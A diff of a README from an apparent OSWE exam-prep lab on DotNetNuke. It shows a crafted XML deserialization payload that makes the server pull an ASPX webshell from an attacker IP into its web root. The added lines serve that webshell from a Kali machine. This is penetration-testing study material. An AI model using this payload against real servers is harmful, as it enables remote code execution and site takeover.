

Before and after one commit to solimanalmansor/OSWE-Prep, a Markdown page: OSWE-Labs/DotNetNuke/README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/OSWE-Labs/DotNetNuke/README.md
+++ b/OSWE-Labs/DotNetNuke/README.md
@@ -275,3 +275,14 @@ The serialized object now looks like this:
 ```xml
 <profile><item key="myTableEntry" type="System.Data.Services.Internal.ExpandedWrapper`2[[DotNetNuke.Common.Utilities.FileSystemUtils, DotNetNuke, Version=9.1.0.367, Culture=neutral, PublicKeyToken=null],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"><ExpandedWrapperOfFileSystemUtilsObjectDataProvider xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"><ProjectedProperty0><ObjectInstance xsi:type="FileSystemUtils" /><MethodName>PullFile</MethodName><MethodParameters><anyType xsi:type="xsd:string">http://192.168.45.192/cmdasp.aspx</anyType><anyType xsi:type="xsd:string">C:/inetpub/wwwroot/dotnetnuke/cmdasp.aspx</anyType></MethodParameters></ProjectedProperty0></ExpandedWrapperOfFileSystemUtilsObjectDataProvider></item></profile>
 ```
+### RCE
+At this stage, we can set up the full attack and attempt to gain a reverse shell by exploiting the vulnerability. To do this, we'll use an ASPX command shell available on our Kali attack machine. We'll copy the shell to the web server’s root directory.
+```bash
+┌──(kali㉿kali)-[~]
+└─$ cd /usr/share/webshells/aspx/
+
+┌──(kali㉿kali)-[/usr/share/webshells/aspx]
+└─$ python3 -m http.server 80
+Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
+
+```
````
